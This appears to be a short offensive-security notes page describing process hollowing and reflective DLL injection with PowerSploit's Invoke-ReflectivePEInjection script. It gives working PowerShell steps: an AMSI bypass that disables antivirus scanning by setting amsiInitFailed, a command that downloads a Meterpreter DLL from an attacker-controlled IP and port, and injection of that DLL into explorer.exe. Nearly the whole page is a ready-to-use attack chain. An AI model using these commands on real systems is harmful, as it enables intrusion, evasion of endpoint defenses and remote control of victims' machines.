 # Start process in a suspended state.  Read the entry point of the app and replace with shellcode.  Then resume execution of application
<br><br>

[Invoke-ReflectivePEInjection.ps1 script to load DLL]([https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)


### Steps

1. Bypass AMSI
``` powershell
$fields = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static')
$fields.SetValue($null,$true)
```
<br>
2. Copy Invoke-ReflectivePEInjection.ps1 to host or download.  Import
3. Download Bytes of .dll file and get ProcID of process youd like to migrate into.  
<br>
<br>

``` powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.196:4443/met.dll')
$procid = (Get-Process -Name explorer).Id
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid

```


